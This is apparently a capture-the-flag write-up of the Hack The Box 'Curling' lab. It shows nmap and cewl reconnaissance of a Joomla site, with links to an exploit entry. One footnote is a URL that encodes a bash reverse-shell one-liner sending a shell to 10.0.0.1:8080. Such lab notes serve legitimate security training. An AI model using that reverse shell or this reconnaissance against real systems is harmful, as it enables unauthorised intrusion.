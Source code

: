 # 📦 HTB | curling

Tags: #📦
Related to: 
See also: [[nmap]], [[cewl]], [[joomscan]], [[tee]], [[base64]], [[burpsuite]], [[wfuzz]], [[PHP]], [[bash]], [[python]], [[netcat ncat nc]], [[curl]], [[dev shm]], [[xxd]], [[file]], [[bzcat]], [[zcat]], [[tar]], [[gzip]], [[bzip2]], [[wget]], [[pspy]], [[rlwrap]], [[stty]], [[watch]], [[cron]] ,[[crontab]], [[powershell]], [[cyberchef]]
Previous: [[01 HTB/HTB]]

- [x] official walkthrough
- [x] ippsec

## Enumeration

### nmap default script and version scan

	nmap -sC -sV -oA nmap/curling 10.129.171.59
	
```text
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-05 13:57 EDT
Nmap scan report for 10.129.171.59
Host is up (0.072s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.99 seconds
```

### View website

	firefox 10.129.171.59	// Website title is "CewlCurlingSite!"

### Crawl website with cewl and generate custom wordlist

	cewl -w cewl.out 10.129.171.59

### Review website source code

Joomla! CMS detected by nmap:
`<meta name="generator" content="Joomla! - Open Source Content Management" />`


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency